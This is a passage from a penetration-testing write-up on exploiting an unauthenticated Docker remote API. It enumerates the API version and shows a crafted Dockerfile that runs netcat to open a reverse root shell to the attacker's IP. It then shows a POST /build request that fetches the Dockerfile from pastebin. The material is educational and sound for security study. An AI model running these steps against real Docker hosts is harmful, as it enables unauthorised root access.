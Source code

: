 ![Information about the Docker Daemon]({{ "https://raw.githubusercontent.com/fusionx3/fusionx3.github.io/master/images/docker_1.png" | absolute_url }})


Unfortunately, the Docker API doesn't have a built-in authentication system, but you can implement [TLS certificates](http://tech.paulcz.net/2016/01/secure-docker-with-tls/) to restrict access to the API.

To enumerate the version of the API, we appended `v1.31/info` to the URL and the API explicitly told us its version. v1.31 is the latest version of the API at the time of writing this article, and according to the documentation, you can also query the server's info by submitting a GET request to this URL: `http://10.0.5.10:4000/v1.31/info`
```http
HTTP/1.1 400 Bad Request
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:40:16 GMT
Content-Type: application/json
Content-Length: 96
Connection: Close
{
"message":"client is newer than server (client API version: 1.31, server API version: 1.24)"
}
```

<br>
## **Gaining Access to a Container**

After some quick reading through the [Docker API Documentation](https://docs.docker.com/engine/api/v1.24/), creating a custom image and starting it as a container is simply a matter of a few POST requests.

Since Docker allows us to create an image from a _Dockerfile_ through the UNIX socket, it shouldn't be different if performed through the API, right?
We begin to craft our own malicious _Dockerfile_ and upload it anywhere on the internet. The Dockerfile I created utilized a clean Ubuntu installation and the good ol' [**netcat**](http://netcat.sourceforge.net/) to give us a reverse TCP shell with root access to the container. Our _Dockerfile_ should look like this:

```docker
FROM ubuntu:16.04

RUN apt-get update -y && apt-get install netcat -y
CMD ["nc", "-n", "My_OWN_IP", "4444", "-e", "/bin/bash"]
```

Note
> CMD is the command that is to executed upon the startup of the container. In our case, it's just like running `nc -n xx.xx.xx.xx 444 -e /bin/bash` in the container system.


Afterwards, we start to craft the POST request and the JSON object needed in order to build our image.

```http
POST /build?remote=https://pastebin.com/raw/twq0c1M4 HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 2
{}
```
